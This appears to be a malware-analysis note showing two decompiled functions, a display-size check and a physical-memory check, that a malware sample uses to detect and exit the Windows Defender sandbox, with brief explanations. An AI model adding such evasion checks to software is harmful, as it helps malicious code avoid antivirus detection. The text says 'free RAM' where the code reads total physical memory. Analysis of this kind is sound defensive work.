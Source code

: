 # Anti Windows Defender Sandbox 

The anti-sandbox functions are aimed at protecting against Windows Defender dynamic analysis sandbox.Techniques for bypassing it have been written about [here](https://book.hacktricks.xyz/windows-hardening/av-bypass). They do not interfere in any way with tracing through a normal debugger.

```cpp
int anti_windows_defender_sandbox_check_displaysize()
{
  HDC diplay_; // edi
  int DeviceCaps; // ebx
  int HORZSIZE; // eax

  diplay_ = CreateDCA("DISPLAY", 0, 0, 0);
  DeviceCaps = GetDeviceCaps(diplay_, 8);
  HORZSIZE = ReleaseDC(0, diplay_);
  if ( DeviceCaps < 665 )
    ExitProcess(0);
  return HORZSIZE;
}
```

Function gets the display length, if the display length is less than 665 pixels, the malware will terminate.

```cpp
int anti_windows_defender_sandbox_checkmemory()
{
  unsigned int v0; // ecx
  int result; // eax
  struct _MEMORYSTATUSEX Buffer; // [esp+0h] [ebp-44h] BYREF

  memset(&Buffer, 0, sizeof(Buffer));
  Buffer.dwLength = 64;
  if ( GlobalMemoryStatusEx(&Buffer) )
  {
    v0 = Buffer.ullTotalPhys >> 20;
    result = HIDWORD(Buffer.ullTotalPhys) >> 20;
  }
  else
  {
    v0 = 0;
    result = 0;
  }
  if ( !result && v0 < 777 )
    ExitProcess(0);
  return result;
}
```
Function gets the amount of free RAM in the system, if the amount of memory is less than 777mb, the malware will terminate.
